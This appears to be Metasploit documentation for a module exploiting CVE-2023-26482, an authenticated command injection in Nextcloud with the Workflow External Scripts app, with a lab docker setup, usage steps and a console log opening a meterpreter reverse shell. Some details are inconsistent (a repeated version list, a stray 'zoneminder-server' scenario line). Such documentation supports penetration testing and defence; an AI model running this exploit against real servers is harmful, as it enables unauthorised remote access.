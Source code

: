 ## Description

This module exploits a command injection that leads to a remote execution in Nextcloud installations if the app Workflow External Scripts is also installed. 
The vulnerability affects Nextcloud versions >= 24.0.0, >= 25.0.0, >= 18.0.0, >= 19.0.0, >= 20.0.0, >= 21.0.0, >= 22.0.0, >= 23.0.0, >= 24.0.0, >= 25.0.0

A missing scope validation allowed users to create workflows which are designed to be only available for administrators. In combination with Workflow External Script, this vulnerability
leads to authenticated remote command execution.

More about the vulnerability detail: [CVE-2023-26482](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2023-26482).

The module will automatically use `cmd/linux/http/x64/meterpreter/reverse_tcp` payload.

The module will check if the target is vulnerable, by adding and removing a dummy-workflow.


## Vulnerable Application

[Nextcloud](https://nextcloud.com/) is a suite of client-server software for creating and using file hosting services.

This module has been tested successfully on Nextcloud versions:

* Nextcloud version 24.0.5

### Source and Installers

* [Source Code Repository](https://github.com/nextcloud/server/releases/tag/v24.0.5)
* [Docker](https://hub.docker.com/_/nextcloud)

### Docker Installation

This exploit was tested using a [nextcloud docker container](https://hub.docker.com/_/nextcloud) and [docker-compose](https://docs.docker.com/compose/)
with the following docker-compose.yml:

```yaml
volumes:
  nextcloud:
  db:

services:
  db:
    image: mariadb:10.6
    restart: always
    command: --transaction-isolation=READ-COMMITTED --log-bin=binlog --binlog-format=ROW
    volumes:
      - db:/var/lib/mysql
    environment:
      - MARIADB_ROOT_PASSWORD=root
      - MARIADB_PASSWORD=root
      - MARIADB_DATABASE=nextcloud
      - MARIADB_USER=nextcloud

  app:
    image: nextcloud:24.0.5
    restart: always
    ports:
      - 8080:80
    links:
      - db
    environment:
      - MYSQL_PASSWORD=root
      - MYSQL_DATABASE=nextcloud
      - MYSQL_USER=root
      - MYSQL_HOST=db
      - NEXTCLOUD_ADMIN_PASSWORD=admin
      - NEXTCLOUD_ADMIN_USER=admin
      - NEXTCLOUD_TRUSTED_DOMAINS="192.168.233.64:8080"
    depends_on:
      - db
```

**_NOTE:_** Change the IP-address and port for NEXTCLOUD_TRUSTED_DOMAINS for your setup

After `docker compose up -d` login as admin and install the workflow app: "Workflow external script" and
create a low privileged user `alice`. Make sure that you choose "Cron(Recommended)" in the Settings for "Background Jobs".
Before we can run the exploit, we need to start the cronjob. This is crucial because otherwise the
payload doesn't get triggered:

```
docker exec -it -u www-data nextcloud-app-1 /bin/bash`
watch -n2 php cron.php
```

Wait until you the watch-command outputs something like: "Every 2.0s: php cron.php". 

## Verification Steps
Example steps in this format (is also in the PR):

1. Do: `use exploit/unix/webapp/nextcloud_workflows_rce`
2. Do: `set RHOSTS [ips]`
3. Do: `set LHOST [lhost]`
4. Do: `set RPORT 8080`
5. Do: `set USERNAME alice`
6. Do: `set PASSWORD alice-password`
7. Do: `run`
8. You should get a shell after a while

## Options

### TARGETURI

Remote web path to the nextcloud installation (default: /)

### ListenerTimeout

Number of seconds to wait for the exploit to connect back (default: 960)

### USERNAME

The low-privileged username to authenticate to nextcloud

### PASSWORD

The password for the low-privileged user

## Scenarios

In this scenario the zoneminder-server has the IP address 192.42.0.254. The IP address of the metasploit host is
192.42.1.188.

### Nextcloud 24.0.5(docker-compose) 

The following demo shows how to use the exploit:

```
msf6 > use exploit/unix/webapp/nextcloud_workflows_rce
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/nextcloud_workflows_rce) > set RHOSTS 192.168.233.64
RHOSTS => 192.168.233.64
msf6 exploit(unix/webapp/nextcloud_workflows_rce) > set LHOST 192.168.233.117
LHOST => 192.168.233.117
msf6 exploit(unix/webapp/nextcloud_workflows_rce) > set RPORT 8080
RPORT => 8080
msf6 exploit(unix/webapp/nextcloud_workflows_rce) > set USERNAME alice
USERNAME => alice
msf6 exploit(unix/webapp/nextcloud_workflows_rce) > set PASSWORD CaeD4ohchaiv5ieDooBa
PASSWORD => CaeD4ohchaiv5ieDooBa
msf6 exploit(unix/webapp/nextcloud_workflows_rce) > run
[*] Started reverse TCP handler on 192.168.233.117:4444
[*] Sending payload..
[+] Workflow created
[*] Waiting for the payload to connect back ..
[*] Sending stage (3045380 bytes) to 192.168.233.64
[*] Meterpreter session 1 opened (192.168.233.117:4444 -> 192.168.233.64:37090) at 2025-04-10 13:27:49 +0000
[+] Payload connected!
[*] Cleaning up

meterpreter > getuid
Server username: www-data
```
